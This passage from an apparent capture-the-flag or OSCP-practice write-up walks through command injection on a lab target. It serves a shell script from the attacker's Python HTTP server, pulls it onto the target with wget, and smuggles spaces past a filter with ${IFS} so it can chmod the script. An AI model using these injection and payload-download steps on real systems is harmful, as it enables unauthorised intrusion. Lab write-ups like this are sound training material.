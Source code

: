 2. Now, we need to start a python server on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ python3 -m http.server  
   Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
   ```

3. We can now download the shell file on the target machine using `wget`

   ![wget](./.images/wget.png)

   > The ${IFS} means **Internal Field Separator** which is used for splitting words after expansion and to split lines into words. Its default value is <space><tab><newline>

4. From the response, we can say that the file was successfully download on the machine. 

5. To make sure that the file is downloaded we can run the command `ls`

6. Now that the file is downloaded, we need to execute it but before that we need to make the file executable. So, we can send the command `chmod +x shell.sh` as `chmod${IFS}+x${IFS}shell.sh`.

   ![chmod_x](./.images/chmod_x.png)

   But it looks like even this is not working. And from the value that is returned we can assume that the issue is due to `+` in our command. But we have another option for this and that by sending the command `chmod 777 shell.sh` with `${IFS}`.
